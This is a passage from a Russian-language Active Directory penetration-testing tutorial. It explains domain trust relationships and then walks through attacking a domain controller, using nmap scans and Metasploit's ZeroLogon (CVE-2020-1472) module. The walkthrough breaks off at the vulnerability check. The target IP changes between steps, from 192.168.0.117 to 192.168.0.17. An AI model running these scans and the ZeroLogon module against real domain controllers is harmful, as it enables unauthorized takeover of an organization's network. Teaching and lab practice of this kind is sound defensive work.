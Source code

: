 **Доверительные отношения (Trust Relationship)** — это отношения, установленные между двумя доменами, которые позволяют
пользователям одного домена быть распознанными контроллером домена в другом домене. Доверительные отношения позволяют
пользователям получать доступ к ресурсам в другом домене, а также позволяют администраторам управлять правами
пользователей в другом домене. На уровне леса доверительные отношения создаются автоматически между корневым доменом
леса и корневым доменом каждого дерева доменов, добавленного в лес, в результате чего между всеми доменами в лесу Active
Directory существует полное доверие.

### Разбор базового примера

Вы получили доступ к машине с ОС Windows и обнаружили контроллер домена, и ваша задача — взломать контроллер домена,
извлечь данные объектов домена и закрепить доступ в домене.

Ход действий

1. Проведем сканирование сервера с помощью nmap:

> $ nmap -Pn -n -F -v --open 192.168.0.117

Список портов типичен для контроллера домена: помимо стандартных для Windows портов SMB, MS-RPC и NetBIOS присутствует
также DNS-сервер на порту 53, сервер используемого для авторизации в домене протокола Kerberos на 88 и протокол доступа
к каталогам LDAP на 389.

2. Попробуем определить версию DNS-сервера с помощью сканирования SMB-порта с помощью скриптов nmap:

> $ nmap -Pn -n -p 445 -sV -sC -v --open 192.168.0.117

Данная версия Windows Server, выполняющего роль контроллера домена, может быть подвержена ZeroLogon – опасной
уязвимости, позволяющей злоумышленникам получить полный доступ к контроллеру домена, даже не имея каких-либо учетных
данных.

> $ msfconsole

3. Используем средства Metasploit Framework для проверки сервера на эту уязвимость:

> msf6> search zerologon

> msf6> use auxiliary/admin/dcerpc/cve_2020_1472_zerologon

4. Указываем IP сервера и его NetBIOS имя, ранее полученное при сканировании nmap:

> msf6> set RHOSTS 192.168.0.17

> msf6> set NBNAME DC1

5. Проверим, что хост действительно уязвим:

> msf6> check
